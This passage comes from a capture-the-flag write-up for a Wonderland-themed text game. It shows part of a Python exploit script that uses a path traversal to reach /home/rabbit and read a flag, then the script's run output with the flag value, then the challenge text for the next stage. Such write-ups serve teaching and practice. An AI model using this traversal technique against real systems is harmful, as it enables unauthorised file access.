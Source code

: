 ```python

    # Trigger the path traversal to get to the root.
    log.info('Triggering path traversal vulnerability to navigate to /')
    c.sendline('teleport ../../../../../../..')

    # Move to /home/rabbit/
    log.info('Moving to /home/rabbit')
    next_path = [b'home', b'rabbit']
    c.multimove(next_path)

    # Get the flag.
    log.info('Reading the flag at /home/rabbit/flag1')
    flag1 = c.read(b'flag1')
    log.success('Flag 1:')
    log.success(flag1.decode('ascii'))

    # Present an interactive prompt.
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./1_arbitrary_file_read.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[▅] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Triggering path traversal vulnerability to navigate to /
[*] Moving to /home/rabbit
[*] Reading the flag at /home/rabbit/flag1
[+] Flag 1:
[+] TISC{r4bbb1t_kn3w_1_pr3f3r_p1}

[*] Switching to interactive mode
$
```

The full exploit can be found in `1_arbitrary_file_read.py`.


### Stage 2: Pool of Tears

The challenge text for this stage is:

```
It looks like the Rabbit knew too much about PALINDROME. Within his cache of secrets lies a special
device that might just unlock clues to tracking down the elusive trickster. However, our attempts
read it yield pure gibberish.

It appears to require... activation. To activate it, we must first become the Rabbit.

Please assume the identity of the Rabbit.

The game is hosted at 172.17.0.1:31337.

No kernel exploits are required for this challenge.
```
